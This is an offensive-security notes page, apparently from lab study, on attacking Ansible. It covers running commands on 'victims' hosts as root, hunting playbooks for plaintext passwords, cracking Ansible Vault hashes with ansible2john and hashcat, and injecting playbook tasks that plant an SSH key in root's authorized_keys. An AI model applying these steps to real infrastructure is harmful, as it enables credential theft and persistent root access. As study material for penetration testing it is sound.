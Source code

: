 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# Ansible
#### Commands
Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <span style="color:red">/etc/ansible/hosts</span>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
&nbsp;
{% highlight shell linenos %}
ansible victims -a "whoami"
{% endhighlight %}
&nbsp;
This will run _whoami_ on all members of the Ansible group. To run it as root <div style="color:red">ansible victims -a "whoami" --become</div> or specify the user <div style="color:red">ansible victims -a "whoami" --become user2</div>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <div style="color:red">/opt/playbooks</div> to see if there's any info leakage.
&nbsp;
I.E.
{% highlight yaml linenos %}
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
{% endhighlight %}
&nbsp;
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
&nbsp;
{% highlight yaml linenos %}
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
{% endhighlight %}
&nbsp;
Copy the hash starting with "$ANSIBLE_VAULT......." and use <div style="color:red">ansible2john</div> to convert it in a crackable way to then:
&nbsp;
{% highlight shell linenos %}
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
{% endhighlight %}
&nbsp;
to then decrypt the vault like:
&nbsp;
{% highlight shell linenos %}
cat pw.txt | ansible-vault decrypt
{% endhighlight %}
&nbsp;
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
&nbsp;
{% highlight yaml linenos %}
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
{% endhighlight %}
&nbsp;
Also, some modules from Ansible might leak data in <div style="color:red">/var/log/syslog</div> (I.E. shell module)
